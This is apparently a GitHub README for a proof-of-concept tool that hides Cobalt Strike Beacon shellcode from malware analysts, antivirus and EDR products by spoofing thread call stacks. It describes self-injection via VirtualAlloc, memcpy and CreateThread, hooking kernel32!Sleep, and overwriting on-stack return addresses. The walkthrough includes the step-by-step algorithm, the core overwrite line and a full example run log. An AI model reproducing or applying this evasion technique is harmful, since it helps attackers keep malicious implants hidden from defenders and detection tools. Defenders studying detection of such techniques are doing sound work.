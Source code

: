 # Thread Stack Spoofing PoC

This is an example implementation for _Thread Stack Spoofing_ technique aiming to evade Malware Analysts, AVs and EDRs looking for references to shellcode's frames in an examined thread's call stack.
The idea is to walk back thread's call stack and overwrite return addresses in subsequent function frames thus masquerading allocations containing malware's code.

An implementation may differ, however the idea is roughly similar to what [MDSec's Nighthawk C2](https://www.mdsec.co.uk/nighthawk/) offers for its agents.
Especially demonstrated in this video:

[Nighthawk - Thread Stack Spoofing](https://vimeo.com/581861665)


## How it works?

This program performs self-injection shellcode (roughly via classic `VirtualAlloc` + `memcpy` + `CreateThread`). 
Then when shellcode runs (this implementation specifically targets Cobalt Strike Beacon implants) a Windows function will be hooked intercepting moment when Beacon falls asleep `kernel32!Sleep`. 
Whenever hooked `MySleep` function gets invoked, it will spoof its own call stack leading to this `MySleep` function and begin sleeping. 
Having awaited for expected amount of time, the Thread's call stack will get restored assuring stable return and shellcode's execution resumption.

The rough algorithm is following:

1. Read shellcode's contents from file.
2. Acquire all the necessary function pointers from `dbghelp.dll`, call `SymInitialize`
3. Hook `kernel32!Sleep` pointing back to our callback.
4. Inject and launch shellcode via `VirtualAlloc` + `memcpy` + `CreateThread`
5. As soon as Beacon attempts to sleep, our `MySleep` callback gets invoked.
6. Stack Spoofing begins. 
7. Firstly we walk call stack of our current thread, utilising `ntdll!RtlCaptureContext` and `dbghelp!StackWalk64` 
8. We save all of the stack frames that match our `seems-to-be-beacon-frame` criterias (such as return address points back to a memory being `MEM_PRIVATE` or `Type = 0`, or memory's protection flags are not `R/RX/RWX`)
9. We terate over collected frames (gathered function frame pointers `RBP/EBP` - in `frame.frameAddr`) and overwrite _on-stack_ return addresses with a fake `::CreateFileW` address.
10. Finally a call to `::SleepEx` is made to let the Beacon's sleep while waiting for further communication.
11. After Sleep is finished, we restore previously saved original function return addresses and execution is resumed. 

Function return addresses are scattered all around the thread's stack memory area, pointed to by `RBP/EBP` register. In order to find them on the stack, we need to firstly collect frame pointers, then dereference them for overwriting:

```
	*(PULONG_PTR)(frameAddr + sizeof(void*)) = Fake_Return_Address;
```

This precise logic is provided by `walkCallStack` and `spoofCallStack` functions in `main.cpp`.


## Demo

This is how a call stack may look like when it is **NOT** spoofed:

[images/not-spoofed.png]

This in turn, when thread stack spoofing is enabled:

[images/spoofed.png]


## Example run

Example run that spoofs beacon's thread call stack:

```
C:\> ThreadStackSpoofer.exe beacon64.bin 1
[.] Reading shellcode bytes...
[.] Initializing stack spoofer...
[+] Stack spoofing initialized.
[.] Hooking kernel32!Sleep...
[.] Injecting shellcode...
WalkCallStack: Stack Trace:
        2.      calledFrom: 0x7ff7abc92de4 - stack: 0x50174ff7d0 - frame: 0x50174ff8e0 - ret: 0x1f255dabd51 - skip? 0
        3.      calledFrom: 0x1f255dabd51 - stack: 0x50174ff8f0 - frame: 0x50174ff8e8 - ret: 0x1388 - skip? 0
        4.      calledFrom: 0x    1388 - stack: 0x50174ff8f8 - frame: 0x50174ff8f0 - ret: 0x1f25683ae80 - skip? 0
        5.      calledFrom: 0x1f25683ae80 - stack: 0x50174ff900 - frame: 0x50174ff8f8 - ret: 0x1b000100000004 - skip? 0
        6.      calledFrom: 0x1b000100000004 - stack: 0x50174ff908 - frame: 0x50174ff900 - ret: 0x8003600140000 - skip? 0
        7.      calledFrom: 0x8003600140000 - stack: 0x50174ff910 - frame: 0x50174ff908 - ret: 0x1f255f76040 - skip? 0
        8.      calledFrom: 0x1f255f76040 - stack: 0x50174ff918 - frame: 0x50174ff910 - ret: 0x1f255d8cd9f - skip? 0
        9.      calledFrom: 0x1f255d8cd9f - stack: 0x50174ff920 - frame: 0x50174ff918 - ret: 0x1f255d8cdd0 - skip? 0
WalkCallStack: Stack Trace finished.
                        Spoofed: 0x1f255dabd51 -> 0x7ffeb7f74b60
                        Spoofed: 0x00001388 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f25683ae80 -> 0x7ffeb7f74b60
                        Spoofed: 0x1b000100000004 -> 0x7ffeb7f74b60
                        Spoofed: 0x8003600140000 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255f76040 -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255d8cd9f -> 0x7ffeb7f74b60
                        Spoofed: 0x1f255d8cdd0 -> 0x7ffeb7f74b60
MySleep(5000)
[+] Shellcode is now running.
WalkCallStack: Stack Trace:
        2.      calledFrom: 0x7ff7abc92e14 - stack: 0x50174ff7d0 - frame: 0x50174ff8e0 - ret: 0x7ffeb7f74b60 - skip? 1
        3.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff8f0 - frame: 0x50174ff8e8 - ret: 0x7ffeb7f74b60 - skip? 1
        4.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff8f8 - frame: 0x50174ff8f0 - ret: 0x7ffeb7f74b60 - skip? 1
        5.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff900 - frame: 0x50174ff8f8 - ret: 0x7ffeb7f74b60 - skip? 1
        6.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff908 - frame: 0x50174ff900 - ret: 0x7ffeb7f74b60 - skip? 1
        7.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff910 - frame: 0x50174ff908 - ret: 0x7ffeb7f74b60 - skip? 1
        8.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff918 - frame: 0x50174ff910 - ret: 0x7ffeb7f74b60 - skip? 1
        9.      calledFrom: 0x7ffeb7f74b60 - stack: 0x50174ff920 - frame: 0x50174ff918 - ret: 0x7ffeb7f74b60 - skip? 1
WalkCallStack: Stack Trace finished.
                        Restored: 0x7ffeb7f74b60 -> 0x1f255dabd51
                        Restored: 0x7ffeb7f74b60 -> 0x1388
                        Restored: 0x7ffeb7f74b60 -> 0x1f25683ae80
                        Restored: 0x7ffeb7f74b60 -> 0x1b000100000004
                        Restored: 0x7ffeb7f74b60 -> 0x8003600140000
                        Restored: 0x7ffeb7f74b60 -> 0x1f255f76040
                        Restored: 0x7ffeb7f74b60 -> 0x1f255d8cd9f
                        Restored: 0x7ffeb7f74b60 -> 0x1f255d8cdd0
```


## Author

```
Mariusz Banach / mgeeky, 
<mb [at] binary-offensive.com>, '21
```
